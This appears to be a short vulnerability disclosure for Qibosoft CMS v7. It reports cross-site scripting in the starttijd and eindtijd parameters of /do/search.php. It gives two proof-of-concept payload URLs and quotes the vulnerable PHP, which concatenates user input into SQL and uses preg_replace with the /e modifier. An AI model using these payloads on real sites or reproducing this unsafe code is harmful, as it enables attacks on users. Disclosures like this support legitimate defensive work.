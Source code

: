 # Qibosoft v7 -  cross Site Scripting (Vulnerability Impact version<=7,Qibosoft CMS)




The vulnerability was discovered by test the program's locally and online deployment tests.      

the <B>eindtijd</B> and <B>starttijd</B> parameters on  <B>""/do/search.php""</B> is vulnerable by cross site scripting. 

using this vulnerability an attacker can use XSS to send a malicious script to an unsuspecting user. 




### Location: 

<html>
/do/search.php

</html>



### POC: 
```

domain/do/search.php?starttijd='"--><Svg OnLoad=confirm(0)> 

domain/do/search.php?eindtijd='"--><Svg OnLoad=confirm(0)>


```


### vulnerable code: 

```
if($starttijd&&$eindtijd){
		$starttijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$starttijd);
		$eindtijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$eindtijd);
		if($starttijd<$eindtijd){
			$SQL.=" AND A.posttime>'$starttijd' AND A.posttime<'$eindtijd'";
		}else{
			showerr("时间格式不对");
		}
	}
	if($starttijd){
		$starttijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$starttijd);
		$SQL.=" AND A.posttime>'$starttijd'";
	}
	if($eindtijd){
		$eindtijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$eindtijd);
		$SQL.=" AND A.posttime<'$eindtijd'";
	}

```



### Source Code:
http://down.qibosoft.com/down.php?v=v7
